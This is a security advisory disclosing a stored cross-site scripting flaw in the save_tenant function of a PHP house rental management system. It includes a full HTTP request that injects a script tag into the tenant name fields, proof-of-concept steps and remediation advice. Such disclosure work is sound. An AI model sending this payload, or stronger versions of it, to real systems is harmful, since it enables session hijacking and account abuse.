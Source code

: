 ### **Best House Rental Management System XSS Vulnerability**

- **Exploit Title**: Best House Rental Management System Project in PHP XSS Vulnerability  
- **Exploit Author**: Yasser Alshammari
- **Vendor Homepage**: [SourceCodester](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)  
- **Software Link**: [Download Here](https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+)  
- **Version**: Best House Rental Management System Project in PHP v1.0  
- **Tested On**: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.1.12  
- **CVE**: Reported, waiting for CVE number  

---

### **Description**

The `save_tenant` function in `admin_class.php` of the **Best House Rental Management System Project in PHP v1.0** is vulnerable to a stored Cross-Site Scripting (XSS) attack. This occurs because the `firstname` and `lastname` parameters are not properly sanitized, allowing an attacker to inject malicious JavaScript into the application. This script is executed when the tenants' page (`/rental/index.php?page=tenants`) is accessed by any user.

---

### **Payload Used**

```sh
POST /rental/ajax.php?action=save_tenant HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------3178982332774785074212688258
Content-Length: 1032
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/rental/index.php?page=tenants
Cookie: PHPSESSID=dknlqepm8oojar1k1bfeioo8gu
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="id"


-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="lastname"

<script>alert('XSS')</script>
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="firstname"

<script>alert('XSS')</script>
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="middlename"

Attacker
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="email"

test@test.com
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="contact"

Attacker
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="house_id"

12
-----------------------------3178982332774785074212688258
Content-Disposition: form-data; name="date_in"

12
-----------------------------3178982332774785074212688258--
```

### **Proof of Concept**

Submit the above POST request to the `/rental/ajax.php?action=save_tenant` endpoint. Open the tenants page at `/rental/index.php?page=tenants`. Observe that the injected JavaScript `<script>alert('XSS')</script>` executes, demonstrating the XSS vulnerability.

### **Impact**
An attacker can inject arbitrary JavaScript into the application, which will execute whenever the affected page is accessed
This can lead to:
* Theft of session cookies or user credentials.
* Unauthorized actions on behalf of users.
* Malicious redirection or delivery of malicious content.

### **Remediation**

### Remediation for Stored XSS

1. **Input Validation and Sanitization**:  
   Validate and sanitize all user inputs on the server side to ensure they do not include malicious scripts or HTML content. Use a whitelist approach and strip any unnecessary tags or attributes.

2. **Output Encoding**:  
   Always encode dynamic content before rendering it in the browser, using context-specific encoding methods (e.g., HTML encoding for page content, JavaScript escaping for scripts).

3. **Content Security Policy (CSP)**:  
   Implement a Content Security Policy to restrict the execution of unauthorized scripts and reduce the impact of potential XSS attacks. For example:
```sh
   Content-Security-Policy: default-src 'self'; script-src 'self';
```
